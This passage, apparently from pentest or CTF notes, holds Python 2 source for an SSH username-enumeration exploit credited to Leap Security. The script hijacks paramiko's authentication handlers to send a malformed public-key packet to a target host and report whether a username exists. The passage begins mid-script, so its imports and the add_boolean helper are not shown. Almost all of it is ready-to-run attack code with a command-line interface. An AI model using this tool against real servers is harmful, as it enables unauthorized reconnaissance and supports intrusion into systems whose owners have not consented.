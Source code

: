 ```python
old_service_accept = paramiko.auth_handler.AuthHandler._client_handler_table[
        paramiko.common.MSG_SERVICE_ACCEPT]

# malicious function to overwrite MSG_SERVICE_ACCEPT handler
def service_accept(*args, **kwargs):
    paramiko.message.Message.add_boolean = add_boolean
    return old_service_accept(*args, **kwargs)

# call when username was invalid
def invalid_username(*args, **kwargs):
    raise InvalidUsername()

# assign functions to respective handlers
paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT] = service_accept
paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_USERAUTH_FAILURE] = invalid_username

# perform authentication with malicious packet and username
def check_user(username):
    sock = socket.socket()
    sock.connect((args.target, args.port))
    transport = paramiko.transport.Transport(sock)

    try:
        transport.start_client()
    except paramiko.ssh_exception.SSHException:
        print '[!] Failed to negotiate SSH transport'
        sys.exit(2)

    try:
        transport.auth_publickey(username, paramiko.RSAKey.generate(2048))
    except InvalidUsername:
        print "[-] {} is an invalid username".format(username)
        sys.exit(3)
    except paramiko.ssh_exception.AuthenticationException:
        print "[+] {} is a valid username".format(username)

# remove paramiko logging
logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())

parser = argparse.ArgumentParser(description='SSH User Enumeration by Leap Security (@LeapSecurity)')
parser.add_argument('target', help="IP address of the target system")
parser.add_argument('-p', '--port', default=22, help="Set port of SSH service")
parser.add_argument('username', help="Username to check for validity.")

if len(sys.argv) == 1:
    parser.print_help()
    sys.exit(1)

args = parser.parse_args()

check_user(args.username)
```

___
#xss #csrf #web-enumeration #information-leakage #abusing-sudoers #api-abuse 
___